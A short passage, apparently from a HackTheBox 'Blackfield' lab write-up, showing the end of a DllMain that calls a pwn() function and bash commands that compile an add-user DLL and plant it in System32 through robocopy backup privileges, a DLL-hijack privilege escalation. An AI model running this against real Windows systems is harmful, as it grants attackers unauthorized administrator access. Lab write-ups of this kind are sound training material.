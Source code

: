 ```c
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                pwn();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
                break;
        }
        return TRUE;
}
```



exploit 

```bash
# dll hijack
## https://github.com/itm4n/UsoDllLoader
## https://snowscan.io/htb-writeup-blackfield/#

## compile
x86_64-w64-mingw32-gcc -o windowscorediviceinfo.dll adduser.c -shared

upload /home/kali/lab/htb/blackfield/hijack/ WindowsCoreDeviceInfo.dll c:\temp\WindowsCoreDeviceInfo.dll
upload /home/kali/lab/htb/blackfield/hijack/UsoDllLoader.exe c:\temp\usodllloader.exe
mkdir system32
move windowscorediviceinfo.dll .\system32
move UsoDllLoader.exe .\system32
robocopy /b system32 c:\windows\system32
```



![image-20221211215721891](./images/image-20221211215721891.png)
